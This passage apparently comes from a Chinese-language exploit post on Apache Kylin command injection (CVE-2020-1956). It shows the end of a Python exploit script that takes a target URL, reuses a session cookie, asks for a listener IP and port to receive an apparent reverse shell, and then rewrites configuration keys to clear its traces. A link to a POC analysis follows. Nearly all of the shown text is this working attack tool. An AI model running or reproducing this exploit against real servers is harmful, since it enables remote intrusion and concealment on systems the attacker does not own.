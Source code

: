 ```python
        "Pragma": "no-cache",
        "Cookie": "project=null;JSESSIONID=" + cookie
    }

    for i in range(0,3):
        data = """{"key":"%s","value":"%s"}""" % (key[i], value[i])
        try:
            response = requests.put(url=config_url, headers=headers, data=data, timeout=20)
            if response.status_code == 200:
                print("\033[32m[o] 成功将" + key[i] +"设置为" + value[i] +"\033[0m")
            else:
                print("\033[31m[x] 设置" + key[i] +"为" + value[i] +"失败\033[0m")
                sys.exit(0)
        except:
            print("\033[31m[x] 漏洞利用失败 \033[0m")
            sys.exit(0)
    print("\033[35m[o] 成功清理痕迹\033[0m")


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    try:
        cookie,Authorization = POC_1(target_url)
    except:
        print("\033[31m[x] 漏洞利用失败 \033[0m")
        sys.exit(0)
    IP = str(input("\033[35m请输入监听IP   >>> \033[0m"))
    PORT = str(input("\033[35m请输入监听PORT >>> \033[0m"))
    POC_2(target_url, cookie, IP, PORT, Authorization)
    POC_3(target_url, cookie)
```

![](/img/20210924015648999312.png)

## 参考文章

[Apache Kylin 命令注入漏洞 CVE-2020-1956 POC 分析](https://paper.seebug.org/1237/)


